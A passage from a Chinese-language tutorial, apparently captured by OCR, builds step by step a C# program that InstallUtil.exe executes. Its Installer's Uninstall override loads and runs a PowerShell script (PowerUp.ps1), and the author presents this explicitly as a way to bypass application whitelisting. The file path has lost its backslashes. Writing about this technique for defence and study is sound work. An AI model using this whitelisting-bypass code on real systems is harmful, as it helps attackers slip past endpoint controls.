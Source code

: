 

为了确保我们的程序能够编译成功，我们还需要定义一个类，并在这个类中添加一个Main()方法。通常情况下，我们的程序都会从这个Main()函数那里开始执行。需要注意的是，这个类的类名必须与我们的文件名（Program.cs）相同。将下列代码添加到资源声明语句的下方：



```
public class Program
 `{`
    public static void Main()
    `{`
    `}`
 `}`
```



接下来，我们要定义程序真正的入口函数了。请注意，我们需要使用InstallUtil.exe工具来运行我们的程序，而不是直接用鼠标左键双击运行。我就不卖关子了，正是这一技巧将帮助我们绕过应用白名单的限制。

为了完成我们的目标，我定义了一个名为“Sample”的类，并让它继承Installer类。然后，我还声明了一个名为“Uninstall”的方法，这个方法就是我们程序真正的入口函数。所以，我们的程序所要执行的第一个任务就是调用这个名为“Exec”的方法（Exec()是Mycode类中的一个方法）。除此之外，我们还要在这个类的上方添加一条声明语句，用来表示这个类需要在程序的安装过程中被调用执行。在Program.cs文件的底部添加下列代码：



```
[System.ComponentModel.RunInstaller(true)]
 public class Sample : System.Configuration.Install.Installer
 `{`
 public override void Uninstall(System.Collections.IDictionary savedState)
 `{`
 Mycode.Exec();
 `}`
 `}`
```



我们所要写的最后一部分代码就是去定义一个Mycode类，然后在这个类中添加一个名为“Exec”的方法。这个方法可以根据用户提供的文件路径读入一个PowerShell脚本，脚本路径定义在符号@“”的双引号之中。在我的测试环境中，我的PowerShell脚本存储路径为“C:UsersfmcDesktopPowerUp.ps1”，接下来的代码用来设置PowerShell脚本在执行过程中所要使用到的变量和参数。

最后，在pipeline.Invoke()函数被调用之后，也就意味着我们的PowerShell脚本被执行了。将下列代码添加到Program.cs文件的末尾处：



```
public class Mycode
 `{`
 public static void Exec()
 `{`
 string command = System.IO.File.ReadAllText(@"C:UsersfmcDesktopPowerUp.ps1");
 RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
 Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
 rspace.Open();
 Pipeline pipeline = rspace.CreatePipeline();
 pipeline.Commands.AddScript(command);
 pipeline.Invoke();
 `}`
 `}`
```
